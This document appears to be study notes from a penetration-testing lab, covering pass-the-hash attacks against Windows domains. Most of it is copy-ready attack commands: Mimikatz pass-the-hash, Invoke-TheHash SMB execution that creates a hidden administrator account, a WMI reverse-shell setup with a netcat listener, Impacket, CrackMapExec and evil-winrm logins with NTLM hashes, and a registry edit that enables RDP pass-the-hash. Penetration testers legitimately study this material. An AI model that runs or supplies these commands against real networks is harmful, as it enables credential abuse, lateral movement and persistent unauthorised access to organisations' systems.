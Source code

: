 
- Dumping the local SAM database from a compromised host
- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller
- Pulling the hashes from memory (lsass.exe)

NTLM (Network Technology LAN Manager)
- SSO
- Predecessor of Kerberos
- Password stored are not salted

#### Mimikatz (Windows)
```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
- /rc4 = NTLM hash

#### Invoke-TheHash with SMB
https://github.com/Kevin-Robertson/Invoke-TheHash
```powershell-session
cd C:\tools\Invoke-TheHash\
```
```powershell-session
Import-Module .\Invoke-TheHash.psd1
```
```powershell-session
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

Reverse shell
Listen on host
```powershell-session
.\nc.exe -lvnp 8001
```

Reverse Shell Generator:
https://www.revshells.com/

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```
```powershell-session
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "Reverse shell script goes here"
```


#### Pass the Hash with Impacket (Linux)

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
- https://github.com/fortra/impacket/blob/master/examples/wmiexec.py
- https://github.com/fortra/impacket/blob/master/examples/atexec.py
- https://github.com/fortra/impacket/blob/master/examples/smbexec.py

#### Pass the Hash with CrackMapExec (Linux)
```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Command with -x flag
```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

#### Pass the Hash with evil-winrm (Linux)
```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

#### Pass the Hash with RDP (Linux)
(DisableRestrictedAdmin must be enabled)
```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


